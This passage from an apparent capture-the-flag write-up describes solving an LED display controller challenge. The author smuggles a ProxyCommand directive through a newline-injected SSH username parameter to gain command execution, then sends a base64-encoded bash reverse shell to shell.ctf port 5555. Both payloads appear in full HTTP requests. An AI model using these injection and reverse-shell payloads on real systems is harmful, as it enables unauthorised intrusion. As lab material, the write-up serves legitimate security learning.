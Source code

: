 I submitted the flag for 3 points.

```bash
$ askgod submit FLAG-baa774f220d8dc3b2b72bff39671467c                                      
Congratulations, you score your team 3 points!
Message: It says "ALERT!" on the LED display. Now hopefully that will help us for the heist! (3/3)
```

## Flag 1

I did not find the first flag during the event. I looked all over the display server, but it was clear that it was on the controller server. I tried to gain access to it, but I failed. The designer (Marc Olivier Bergeron) gave the solution on [Discord](https://discord.com/channels/444285101476544515/1368967482789855313/1373746151530037278) after the event. I'm doing it now while the infra is still up.

To get access to the server, you need to use ProxyCommand. It's a directive used to define a proxy to use when connecting to a server. The example given uses a `%0a` between the username and the ProxyCommand directive. This directive is used in an SSH configuration file. The code probably builds that file when sending requests. Let's give it a try.

```http
GET /?host=led-display.ctf&port=22&username=service%0aProxyCommand%20`id`&function=list&argument=&password=Bonsecours123%21 HTTP/1.1
Host: led-display-controller.ctf:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

The response had an error with the result from the `id` command

```html
        </div>
        <div id="alert" class="form-input">&nbsp;</div>
    </form>
    <pre>/bin/sh: 1: exec: uid=1000(service): not found
Connection closed by UNKNOWN port 65535
</pre>
```

I have code execution. Let's use that to get a shell on the server. 

```bash
$ echo 'bash  -i >& /dev/tcp/shell.ctf/5555 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzU1NTUgMD4mMSAK
```

```http
GET /?host=led-display.ctf&port=22&username=service%0aProxyCommand%20`echo%20YmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzU1NTUgMD4mMSAK|base64%20-d|bash`&function=list&argument=&password=Bonsecours123%21 HTTP/1.1
Host: led-display-controller.ctf:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
